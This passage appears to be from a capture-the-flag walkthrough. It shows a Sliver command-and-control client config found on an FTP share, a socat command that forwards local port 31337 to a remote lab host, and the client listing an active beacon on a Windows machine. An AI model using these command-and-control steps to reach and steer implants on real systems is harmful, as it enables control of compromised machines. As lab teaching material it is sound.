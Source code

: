 The ftp share contains a sliver config and also the sliver client for convenience. This company already setup the c2 server for you but doesn't want to give you shell access on the server. Let's try to connect. When we check the config we note that it's connecting to localhost by default:

```terminal
...
"lhost":"127.0.0.1",
"lport":31337,
...
``` 

An easy fix is running socat to redirect traffic from local port 31337 to the remote machine:

```terminal
sudo socat TCP-LISTEN:31337,reuseaddr,fork TCP:10.10.144.231:31337
```

Now we can import the config and start the sliver client:

``` terminal
./sliver-client_linux import $PWD/red_127.0.0.1.cfg

Connecting to 127.0.0.1:31337 ...
[*] Loaded 20 aliases from disk
[*] Loaded 105 extension(s) from disk

 	  ██████  ██▓     ██▓ ██▒   █▓▓█████  ██▀███
	▒██    ▒ ▓██▒    ▓██▒▓██░   █▒▓█   ▀ ▓██ ▒ ██▒
	░ ▓██▄   ▒██░    ▒██▒ ▓██  █▒░▒███   ▓██ ░▄█ ▒
	  ▒   ██▒▒██░    ░██░  ▒██ █░░▒▓█  ▄ ▒██▀▀█▄
	▒██████▒▒░██████▒░██░   ▒▀█░  ░▒████▒░██▓ ▒██▒
	▒ ▒▓▒ ▒ ░░ ▒░▓  ░░▓     ░ ▐░  ░░ ▒░ ░░ ▒▓ ░▒▓░
	░ ░▒  ░ ░░ ░ ▒  ░ ▒ ░   ░ ░░   ░ ░  ░  ░▒ ░ ▒░
	░  ░  ░    ░ ░    ▒ ░     ░░     ░     ░░   ░
		  ░      ░  ░ ░        ░     ░  ░   ░

All hackers gain conspire
[*] Server v1.5.42 - 85b0e870d05ec47184958dbcb871ddee2eb9e3df
[*] Welcome to the sliver shell, please type 'help' for options

[*] Check for updates with the 'update' command

sliver >
``` 

Running the `beacons` command shows that a beacon is already connected to this server:

```terminal
sliver > beacons

 ID         Name          Transport   Hostname   Username             Operating System   Last Check-In   Next Check-In
========== ============= =========== ========== ==================== ================== =============== ===============
 56d068c7   puppet-mtls   mtls        File01     PUPPET\Bruce.Smith   windows/amd64      6s              26s
```
